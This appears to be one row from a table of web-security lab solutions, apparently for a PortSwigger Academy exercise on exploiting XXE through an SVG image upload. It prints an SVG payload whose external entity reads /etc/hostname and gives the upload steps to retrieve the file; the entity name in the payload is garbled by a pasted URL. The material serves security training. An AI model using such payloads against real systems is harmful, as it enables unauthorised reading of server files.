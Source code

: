 |74    |Exploiting XXE via image file upload                                                                                     |<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY https://portswigger.net/web-security/xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |SVG image format uses XML.  Create SVG file with the payload content. Upload the image as an avatar and post a comment. The /etc/hostname file should be in the image.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |Practitioner, XXE                           |